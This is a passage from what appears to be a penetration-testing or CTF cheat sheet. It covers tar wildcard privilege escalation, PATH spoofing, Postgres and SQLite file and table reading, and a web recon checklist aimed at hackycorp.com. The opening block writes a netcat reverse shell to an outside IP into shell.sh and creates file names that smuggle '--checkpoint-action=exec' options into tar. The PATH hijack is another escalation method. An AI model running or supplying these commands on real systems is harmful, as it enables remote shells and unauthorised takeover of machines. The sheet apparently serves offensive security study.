 ```bash
$ echo "mkfifo /tmp/lhennp; nc 10.2.54.209 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
$ echo "" > "--checkpoint-action=exec=sh shell.sh"
$ echo "" > --checkpoint=1
```

### Binary Exploits (PATH Spoofing)
If there is a certain command running in a binary example `date` so we can create our own binary and add `/bin/bash` to and path so it gets executed
```bash
$ export PATH=<path_where_binary_is>/:$PATH
# Example: `export PATH=/tmp:$PATH`
```

### Postgress
```bash
$ psql

# \list to list the databases
# \c [DATABASE] to select the database [DATABASE]
# \d to list the tables

// Connect 
$ psql -U <user>

// Read files
# CREATE TABLE demo(t text);
# COPY demo from '[FILENAME]';
# SELECT * FROM demo;
```

### SQLite
```bash
$ sqlite3 <filename>

# .tables to get a list of tables.
# SELECT .... to extract the content of a table using SQL.
```

### Recon
- Check `robots.txt` file.
- Check the 404 page.
- Check `security.txt` at `/.well-known/security.txt`.
- Check for directory listing.
- Check common directories (`gobuster` will help).
- Access the default virtual host (the IP). Both HTTP or HTTPS.
- Check the HTTPS certificate.
- Check the HTTP headers.
- Take a screenshoot of massive targets using `aquatone` or `eyewitness`.
    - `eyewitness --web -f targets.txt`/
- Bruteforce vhost and visit it with `curl -H "Host: admin.hackycorp.com" http://hackycorp.com`.
- Trigger error after spam request.
- Check the TXT record. `dig domain.com TXT`.
- Check the bind version using nmap. `nmap -n --script "dns-nsid" z.hackycorp.com`.
- Check the company github repository.
- Check the git log.
- Check difference branch.
- Check the deleted file (check Git section below).
- Check the commit messages.
- Check the aws s3 bucket. Example: `aws s3 cp s3://assets.hackycorp.com/key2.txt .`.
